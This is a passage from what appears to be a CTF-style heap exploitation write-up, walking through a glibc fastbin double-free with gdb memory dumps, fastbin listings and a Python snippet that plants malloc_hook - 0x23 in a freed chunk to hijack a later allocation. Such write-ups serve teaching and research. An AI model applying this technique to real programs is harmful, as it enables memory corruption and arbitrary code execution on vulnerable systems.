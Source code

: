 Now chunk 2 is officially in the fastbin list and points to the previous free'd chunk. Remember, each of these bins maintains a single linked list and addition and deletion happen from the front of this list (LIFO manner).
Let's take advantage of the double-free vulnerability and free chunk 3 once again abusing the fact that malloc will only check if the chunk currently being free'd is the same as the one at the top of the fastbin list.

* `free(3)`

```
0x603000:	0x0000000000000000	0x0000000000000071
0x603010:	0x0000000000603070	0x00007ffff70a4343
0x603020:	0x0000000000000000	0x0000000000000000
0x603030:	0x0000000000000000	0x0000000000000000
0x603040:	0x0000000000000000	0x0000000000000000
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000071
0x603080:	0x0000000000603000	0x00007ffff70a4444
```

```
(gdb) printfastbin 
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x603070 --> 0x603000 --> 0x603070 (overlap chunk with 0x603070(freed) )
(0x80)     fastbin[6]: 0x0
```

Perfection! Based on the fact that addition and deletion happens from the head of the binlist (`0x603070` in our case), once we allocate a fast chunk of size `0x68`,
malloc will do the following:

* Check if there's a fast chunk in the corresponding fastbin list depending on the size that was requested.

* Since there is, delete the fast chunk from the head of the list and serve it back to the user.

In other words, on the next request, we should receive back `0x603070` as the memory area to store our data, which would change the fastbin list to `0x603000 --> 0x603070`.
However, here's the catch. We get to store data in a free'd chunk (since we'll get back `0x603070` and let it still be in the free list)! Let's prove it to ourselves.


```python
payload = p64(malloc_hook - 0x23)
alloc(0x68, payload)
```

```
(gdb) x/60gx 0x0000000000603000
0x603000:	0x0000000000000000	0x0000000000000071  <-- chunk 2 [free]
0x603010:	0x0000000000603070	0x00007ffff70a4343
0x603020:	0x0000000000000000	0x0000000000000000
0x603030:	0x0000000000000000	0x0000000000000000
0x603040:	0x0000000000000000	0x0000000000000000
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000071  <-- chunk 3 [in use]
0x603080:	0x00007ffff7dd371d	0x00007ffff70a440a
```
